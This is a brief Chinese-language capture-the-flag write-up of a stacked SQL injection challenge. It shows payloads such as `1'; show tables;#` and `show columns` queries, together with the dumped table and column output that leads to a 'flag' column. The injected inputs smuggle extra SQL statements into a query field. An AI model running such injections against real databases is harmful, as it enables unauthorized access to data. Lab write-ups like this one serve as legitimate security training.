 使用堆叠注入。

`1'; show tables;#`  输出如下：

```php
array(1) {
  [0]=>
  string(16) "1919810931114514"
}
array(1) {
  [0]=>
  string(5) "words"
}
```

查询`1919810931114514`表的字段 `1'; show columns from `1919810931114514`;

 (数值为表名操作时要加反引号)

```php
rray(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```

查询`words`表的字段 `1'; show columns from words;`

```php
array(6) {
  [0]=>
  string(2) "id"
  [1]=>
  string(7) "int(10)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
array(6) {
  [0]=>
  string(4) "data"
  [1]=>
  string(11) "varchar(20)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```